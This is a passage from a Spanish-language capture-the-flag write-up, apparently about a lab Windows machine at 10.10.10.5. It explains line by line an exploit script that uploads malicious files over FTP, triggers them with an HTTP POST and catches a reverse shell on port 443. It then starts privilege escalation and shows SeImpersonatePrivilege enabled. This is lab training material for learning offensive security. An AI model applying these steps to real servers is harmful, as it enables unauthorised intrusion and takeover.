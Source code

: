 24. `r = s.post(console_url, data=post_data)`: Se realiza una solicitud POST al servidor web utilizando la URL almacenada en `console_url` y enviando los datos almacenados en `post_data`. Esto parece ser parte de la explotación de una vulnerabilidad en el servidor web.

25. `if __name__ == '__main__':`: Esta línea verifica si el script se está ejecutando como un programa principal.

26. `uploadFiles()`: Se llama a la función `uploadFiles()`, que subirá los archivos maliciosos al servidor FTP.

27. `try: ... except Exception as e: ...`: Se intenta realizar la siguiente sección de código y, si ocurre una excepción, se captura y se almacena en la variable `e`.

28. `threading.Thread(target=makeRequest, args=()).start()`: Se crea un hilo (thread) que ejecutará la función `makeRequest()` en paralelo con el hilo principal. Esto permite realizar la solicitud HTTP mientras se espera la conexión de un cliente.

29. `shell = listen(lport, timeout=20).wait_for_connection()`: Aquí se llama a la función `listen` del módulo `pwn` para escuchar conexiones en el puerto almacenado en `lport` (puerto 443). La función espera hasta que se establezca una conexión o hasta que pase un tiempo máximo de 20 segundos.

30. `shell.interactive()`: Una vez que se establece la conexión, se inicia una sesión interactiva que permitirá interactuar con el cliente conectado.

Este código es un script que explota una vulnerabilidad en un servidor web ubicado en la dirección IP 10.10.10.5. Sube archivos maliciosos al servidor a través de FTP y, a continuación, realiza una solicitud HTTP que aprovecha la vulnerabilidad para ejecutar comandos en el servidor. Luego, espera una conexión entrante en el puerto 443 y, una vez establecida la conexión, inicia una sesión interactiva con el cliente conectado.

<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

- Ahora vamos a convertirnos en usuario administrador
- Nos vamos a la ruta Users `cd C:\Users` y luego vemos los archivos con `dir`

```ruby
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16     <DIR>          .
18/03/2017  02:16     <DIR>          ..
18/03/2017  02:16     <DIR>          Administrator
17/03/2017  05:17     <DIR>          babis
18/03/2017  02:06     <DIR>          Classic .NET AppPool
14/07/2009  10:20     <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.506.624.000 bytes free
```
Existe un usuario babis, pero no podemos ingresar, nos obliga a ser usuario administrador

```ruby
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```